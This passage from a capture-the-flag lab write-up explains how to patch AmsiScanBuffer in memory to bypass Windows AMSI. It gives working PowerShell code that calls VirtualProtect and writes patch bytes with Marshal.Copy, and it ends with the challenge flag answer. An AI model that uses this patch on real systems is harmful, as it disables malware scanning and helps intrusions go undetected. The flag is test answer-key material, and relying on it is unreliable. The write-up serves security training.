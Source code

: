 Next, we need to modify the memory protection of the `AmsiScanBuffer` process region. We can specify parameters and the buffer address for `VirtualProtect`.

Information on the parameters and their values can be found from the previously mentioned API documentation.

```
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 
```

We need to specify what we want to overwrite the buffer with; the process to identify this buffer can be found [here](https://rastamouse.me/memory-patching-amsi-bypass/). Once the buffer is specified, we can use [marshal copy](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0) to write to the process.

```
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```

At this stage, we should have an AMSI bypass that works! It should be noted that with most tooling, signatures and detections can and are crafted to detect this script. 

### Answer the questions below

* Read the above and execute/observe the script on the provided machine.

* Enter the flag obtained from the desktop after executing the command.

	![task7-flag](./images/task7-flag.png)

	**Answer : THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}**
